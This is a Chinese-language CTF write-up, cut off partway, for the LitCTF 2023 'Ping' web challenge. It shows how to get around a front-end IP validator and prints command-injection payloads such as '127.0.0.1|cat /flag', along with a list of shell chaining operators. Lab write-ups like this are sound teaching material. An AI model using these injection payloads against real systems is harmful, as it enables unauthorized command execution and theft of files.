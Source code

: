 ```yaml
---
title: NSSCTF入门题单[LitCTF 2023]WriteUP-NSSCTF-3873
date: 2024-11-30
tags:
 - CTF
 - NSSCTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true









---
```


<Boxx/>

[LitCTF 2023]这套题是Web方向入门题单，这是我的第22题

[[toc]]

- 题单【[传送门](https://www.nssctf.cn/problem/3861)】
- 主办方WriteUP【[传送门](https://dqgom7v7dl.feishu.cn/docx/WdHvd735koqwJxxulA2cv4K4nKf)】
- 主办方WriteUP视频【[传送门](https://www.bilibili.com/video/BV1sm4y187EK)】

| 题目编号 | 题目名称 | 题目方向 | 难度 |
| -------- | -------- | -------- | ---- |
| 3873     | Ping     | Web      | 1    |

<!-- more -->

# 题目22：Ping

### 题目描述：看看能PING出什么

### 考点：前端禁用&命令执行

### 预期解：

进入页面后，我们看到提示Ping一下

![image-20241130192517588](/img/essay/image-20241130192517588.png)

我们先尝试ping了一下127.0.0.1，返回了正常ping的结果

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.047 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.055 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.045 ms
64 bytes from 127.0.0.1: seq=3 ttl=42 time=0.052 ms
64 bytes from 127.0.0.1: seq=4 ttl=42 time=0.057 ms
64 bytes from 127.0.0.1: seq=5 ttl=42 time=0.060 ms
--- 127.0.0.1 ping statistics ---
6 packets transmitted, 6 packets received, 0% packet loss
round-trip min/avg/max = 0.045/0.052/0.060 ms
```

我们尝试使用命令拼接，也就是在ip地址后加上	“|”	，提示“敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦”

除此之外，还应该点开F12审查元素，这是我们要养成的良好习惯之一，可以看到这里是在前端做了校验，只能输入数字、点这两种符号，如果违规输入前端就会直接拦截。

```html
  <body>
    <div class="container">
      <h1>试着Ping一下吧</h1>
      <script type="text/javascript">
  function check_ip(){
    let ip = document.getElementById('command').value;
    let re = /^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/;
    if(re.test(ip.trim())){
      return true;
    }
    alert('敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦');
    return false;
  }
</script>
      <form action="" method="POST" onsubmit="return check_ip()">
          <input id="command" name="command" type="text" placeholder="Enter an IP address"/>
          <input name="ping" type="submit" value="Ping"/>
      </form>
```

此时我们有多种方式可以绕过前端的校验

### 方法一：JS禁用

在F12页面点击设置，将JavaScript禁用掉，这种方法是不会影响我们提交的，因为提交是Form表单提交的，和js没有关系，js只是校验它是不是ip地址

![image-20241130193747779](/img/essay/image-20241130193747779.png)

在禁用掉js以后，我们重新拼接ip地址和命令，用管道符连接

```
127.0.0.1|ls /
```

![image-20241130194038567](/img/essay/image-20241130194038567.png)

可以看到flag文件就在根目录，直接输入命令展示flag内容即可看到flag内容

```
127.0.0.1|cat /flag
```

> 这种方法要记得常用的命令拼接方法，比如最常用的是管道符
>
> command1 && command2 先执行 command1，如果为真，再执行 command2 
>
> command1 | command2 只执行 command2 
>
> command1 & command2 先执行 command2 后执行 command1 
>
> command1 || command2 先执行 command1，如果为假，再执行 command2

### 方法二：JS Hook

我们在用F12审查元素，审查JS代码，函数名是check_ip

```html
<script type="text/javascript">
  function check_ip(){
    let ip = document.getElementById('command').value;
    let re = /^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/;
    if(re.test(ip.trim())){
      return true;
    }
    alert('敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦');
    return false;
  }
</script>
```

复制这个函数名，我们到F12开发者工具的Console控制台页面

将check_ip这个函数置为空，其实就是将默认的函数名name和参数params删掉，回车即可

![image-20241130194900829](/img/essay/image-20241130194900829.png)

然后同方法一相同，使用管道符在ip地址后拼接命令，即可拿到flag

### 方法三：用HackBar直接提交到后端

我们在审查源码的时候，看到他是POST表单提交，表单的参数名是command，所以我们想到可以直接使用HackBar提交后端的方法，来绕过前端的校验

```html
<form action="" method="POST" onsubmit="return check_ip()">
     <input id="command" name="command" type="text" placeholder="Enter an IP address"/>
     <input name="ping" type="submit" value="Ping"/>
</form>
```

发送一个POST请求，form表单参数为

```
command=127.0.0.1|ls /
```

![image-20241130195837977](/img/essay/image-20241130195837977.png)

同方法一相同，我们使用cat命令即可拿到flag

### 方法四：使用BurpSuite抓包修改

如果有抓包的习惯，可以使用BurpSuite抓包，